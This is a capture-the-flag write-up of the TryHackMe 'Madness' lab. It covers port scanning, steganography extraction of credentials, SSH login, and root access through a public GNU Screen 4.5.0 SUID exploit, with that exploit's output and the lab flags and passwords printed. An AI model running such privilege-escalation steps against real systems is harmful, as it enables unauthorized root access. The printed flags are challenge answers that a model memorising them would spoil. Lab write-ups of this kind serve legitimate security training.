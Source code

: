 ```yaml
---
title: "Madness - TryHackMe"
author: Ludovic COULON
date: 2020-05-15
hero: ./images/hero.png
excerpt: "Writeup for the Madness room on TryHackMe"
---
```


[TryHackMe | Madness](https://tryhackme.com/room/madness)

![https://i.imgur.com/5iW7kC8.jpg](https://i.imgur.com/5iW7kC8.jpg)

Please note this challenge does not require SSH brute forcing.

Use your skills to access the user and root account!

This room is part of the Turmoil series

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.52.214
```

```bash
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ac:f9:85:10:52:65:6e:17:f5:1c:34:e7:d8:64:67:b1 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDnNdHQKU4ZvpWn7Amdx7LPhuwUsHY8p1O8msRAEkaIGcDzlla2FxdlnCnS1h+A84lzn1oubZyb5vMrPM8T2IsxoSU2gcbbgfq/3giAL+hmuKm/nD43OKRflSHlcpIVgwQOVRdEfbQSOVpV5VBtJziA1Xu2dts2WWtawDS93CBtlfyeh+BuxZvBPX2k8XPWwykyR6cWbdGz1AAx6oxNRvNShJ99c9Vs7FW6bogwLAe9SWsFi2oB7ti6M/OH1qxgy7ZPQFhItvI4Vz2zZFGVEltL1fkwk2dat8yfFNWwm6+/cMTJqbVb7MPt3jc9QpmJmpgwyWuy4FTNgFt9GKNOJU6N
|   256 dd:8e:5a:ec:b1:95:cd:dc:4d:01:b3:fe:5f:4e:12:c1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGMMalsXVdAFj+Iu4tESrnvI/5V64b4toSG7PK2N/XPqOe3q3z5OaDTK6TWo0ezdamfDPem/UO9WesVBxmJXDkE=
|   256 e9:ed:e3:eb:58:77:3b:00:5e:3a:f5:24:d8:58:34:8e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB3zGVeEQDBVK50Tz0eNWzBJny6ddQfBb3wmmG3QtMAQ

80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

### #1 user.txt

<div className="Image__Small">
  <img src="https://imgur.com/41PScB3.png" alt="blog_image" />
</div>

On the website in the source code we can see "They will never find me" let's wget the image and search if there is anything in there.

Once you open the image an error will show up, we need to convert the header image to a jpg file

<div className="Image__Small">
  <img src="https://imgur.com/zdz5gC1.png" alt="blog_image" />
</div>

```bash
change the first line to this
```

<div className="Image__Small">
  <img src="https://imgur.com/PklK0ei.png" alt="blog_image" />
</div>

Save the hex file and open the image to seethe result !

<div className="Image__Small">
  <img src="https://imgur.com/GrcsvaS.png" alt="blog_image" />
</div>

Nice we have a hidden directory !

<div className="Image__Small">
  <img src="https://imgur.com/01jTS9C.png" alt="blog_image" />
</div>

<div className="Image__Small">
  <img src="https://imgur.com/9D3EgD5.png" alt="blog_image" />
</div>

Now we have plainly of possibility to resolve this puzzle I've choose the simpler one

I created a list with python

```bash
>>> range(100)
[0, 1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 20, 21, 22, 23, 24, 25, 26, 27, 28, 29, 30, 31, 32, 33, 34, 35, 36, 37, 38, 39, 40, 41, 42, 43, 44, 45, 46, 47, 48, 49, 50, 51, 52, 53, 54, 55, 56, 57, 58, 59, 60, 61, 62, 63, 64, 65, 66, 67, 68, 69, 70, 71, 72, 73, 74, 75, 76, 77, 78, 79, 80, 81, 82, 83, 84, 85, 86, 87, 88, 89, 90, 91, 92, 93, 94, 95, 96, 97, 98, 99]
```

Then a imported this list in burp suite and I started the attack !

<div className="Image__Medium">
  <img src="https://imgur.com/ABpS7HJ.png" alt="blog_image" />
</div>

Now we can extract some files on the "thm.jpg" image from the apache website.

```bash
➜  TryHackMe steghide extract -sf thm.jpg
Enter passphrase:
the file "hidden.txt" does already exist. overwrite ? (y/n) y
wrote extracted data to "hidden.txt".

➜  TryHackMe cat hidden.txt
Fine you found the password!

Here's a username

wbxre

I didn't say I would make it easy for you!
```

After reading the hint given by TryHackMe

```bash
There's something ROTten about this guys name!
```

I tried to decode the username using the ROT13 algo

<div className="Image__Medium">
  <img src="https://imgur.com/Qn5keAi.png" alt="blog_image" />
</div>

And it worked !! Let's ssh the server now with the username and password

```bash
ssh joker@ip
password : y2RPJ4QaPF!B
```

Aaaannd it's not working for some reason.. After some time I tried the image on the room

<div className="Image__Small">
  <img src="https://imgur.com/P13mnW4.png" alt="blog_image" />
</div>

```bash
➜  TryHackMe steghide extract -sf 5iW7kC8.jpg
Enter passphrase:
the file "password.txt" does already exist. overwrite ? (y/n) y
wrote extracted data to "password.txt".

➜  TryHackMe cat password.txt
I didn't think you'd find me! Congratulations!

Here take my password

"*axA&GF8dP"
```

```bash
➜  TryHackMe ssh joker@10.10.52.214
joker@10.10.52.214's password: "*axA&GF8dP"
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-170-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Thu May 14 15:00:54 2020 from 10.9.2.228
joker@ubuntu:~$ ls
user.txt
joker@ubuntu:~$ cat user.txt
THM{d5781e53b130efe2f94f9b0354a5e4ea}
```

### #2 root.txt

Now let's get a root access ! :D

```bash
joker@ubuntu:~$ sudo -l
[sudo] password for joker:
Sorry, user joker may not run sudo on ubuntu.
# Nothing to do with sudo :/
```

```bash
joker@ubuntu:~$ find /bin -perm -4000
/bin/fusermount
/bin/su
/bin/ping6
"/bin/screen-4.5.0"
/bin/screen-4.5.0.old
/bin/mount
/bin/ping
/bin/umount
joker@ubuntu:~$
```

[Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/41154)

```bash
joker@ubuntu:~$ bash s.sh
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function ‘dropshell’:
/tmp/libhax.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^
/tmp/rootshell.c: In function ‘main’:
/tmp/rootshell.c:3:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
     setuid(0);
     ^
/tmp/rootshell.c:4:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
     setgid(0);
     ^
/tmp/rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’ [-Wimplicit-function-declaration]
     seteuid(0);
     ^
/tmp/rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
     setegid(0);
     ^
/tmp/rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^
/usr/bin/ld: cannot open output file /tmp/rootshell: Permission denied
collect2: error: ld returned 1 exit status
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-joker.

$ id
uid=0(root) gid=0(root) groups=0(root),1000(joker)
$ cd /root/
$ ls
root.txt
$ cat root.txt
THM{5ecd98aa66a6abb670184d7547c8124a}
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://tryhackme-badges.s3.amazonaws.com/boperXD.png" alt="TryhackMeProfile" />
  </a>
</center>
